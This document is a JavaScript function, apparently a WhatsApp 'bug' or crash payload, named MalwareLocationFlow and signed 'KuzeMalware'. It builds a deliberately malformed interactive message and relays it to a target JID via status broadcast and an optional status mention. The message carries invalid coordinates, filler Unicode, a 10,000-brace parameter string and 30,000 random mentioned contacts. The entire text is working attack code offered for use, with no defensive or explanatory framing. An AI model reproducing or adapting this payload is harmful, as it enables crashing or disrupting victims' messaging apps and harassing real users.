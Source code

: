 async function MalwareLocationFlow(targetJids, mention = false) {
  try {
    const LocationFlowX1 = {
      ephemeralMessage: {
        message: {
          interactiveMessage: {
            header: {
              title: " ",
              hasMediaAttachment: false,
              locationMessage: {
                degreesLatitude: -999.03499999999999,
                degreesLongitude: 922.999999999999,
                name: "🔞 (Malware - 202)",
                address: "꧀꧀꧀꧀꧀꧀꧀꧀꧀꧀",
              },
            },
            body: {
              text: " ",
            },
            nativeFlowMessage: {
              messageParamsJson: "{".repeat(10000),
            },
            contextInfo: {
              participant: targetJids,
              mentionedJid: [
                "0@s.whatsapp.net",
                ...Array.from({ length: 30000 }, () =>
                  "1" + Math.floor(Math.random() * 5000000) + "@s.whatsapp.net"
                ),
              ],
            },
          },
        },
      },
    };

    const msg = await generateWAMessageFromContent(targetJids, LocationFlowX1, {});

    await sock.relayMessage("status@broadcast", msg.message, {
      messageId: msg.key.id,
      statusJidList: [targetJids],
      additionalNodes: [
        {
          tag: "meta",
          attrs: {},
          content: [
            {
              tag: "mentioned_users",
              attrs: {},
              content: [
                {
                  tag: "to",
                  attrs: { jid: targetJids },
                  content: undefined,
                },
              ],
            },
          ],
        },
      ],
    });

    if (mention) {
      await sock.relayMessage(
        targetJids,
        {
          statusMentionMessage: {
            message: {
              protocolMessage: {
                key: msg.key,
                type: 25,
              },
            },
          },
        },
        {
          additionalNodes: [
            {
              tag: "meta",
              attrs: { is_status_mention: "true" },
              content: undefined,
            },
          ],
        }
      );
    }
  } catch (err) {
    console.log(err);
  }
}
© KuzeMalware
